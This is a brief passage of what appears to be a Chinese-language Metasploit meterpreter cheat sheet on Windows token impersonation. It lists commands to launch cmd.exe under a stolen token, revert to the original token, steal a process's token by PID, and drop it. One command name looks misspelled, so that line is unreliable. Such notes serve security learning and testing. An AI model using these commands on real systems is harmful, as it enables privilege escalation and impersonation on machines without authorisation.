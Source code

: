 ```

execute -f cmd.exe -i –t         或者     shell            
# -t 使用假冒的token 执行
                                               
rev2self   										#返回原始token
```



#### 窃取令牌

stealen_token     <pid值>     窃取指定进程的token 

drop_token                          删除窃取的token
